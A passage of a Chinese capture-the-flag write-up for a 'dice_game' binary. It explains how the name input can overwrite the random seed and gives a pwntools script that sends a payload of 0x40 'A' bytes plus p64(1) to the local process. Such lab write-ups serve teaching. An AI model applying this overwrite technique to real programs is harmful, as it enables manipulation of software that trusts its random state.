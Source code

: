 ![](img/ebb810f8375f9a0e6819cccc2344192e.png)

我们发现szName有一个输入的地方，输入限制是0x50，szName的rbp偏移值是50h，刚好相等，不能做栈溢出。

继续看一下seed的rbp偏移值是10h，那不就是说在输入szName的时候可以覆盖到seed的值。

思路就是这样的，我们构建一下payload：

```
payload = 'A'*0x40 + p64(1)
```

根据payload编写python脚本如下：

```
#coding:utf8

from pwn import *

process_name = './dice_game'
p = process(process_name)

payload = 'A'*0x40 + p64(1)

p.sendlineafter('Welcome, let me know your name: ', payload)
p.interactive()
```
